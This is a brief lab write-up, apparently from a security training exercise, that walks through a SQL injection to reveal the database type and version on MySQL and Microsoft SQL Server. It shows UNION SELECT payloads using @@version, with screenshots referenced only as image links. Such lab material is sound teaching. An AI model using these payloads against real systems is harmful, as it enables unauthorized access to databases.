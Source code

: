 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src=Images/ps1.png width="400" height="200">

## Step 2

Check in which column we can insert

<img src=Images/ps2.png width="400" height="200">

Here we are able to insert in both column

<img src=Images/ps3.png width="400" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src=Images/ps4.png width="400" height="200">

And we have the answer

<img src=Images/ps5.png width="400" height="200">

---
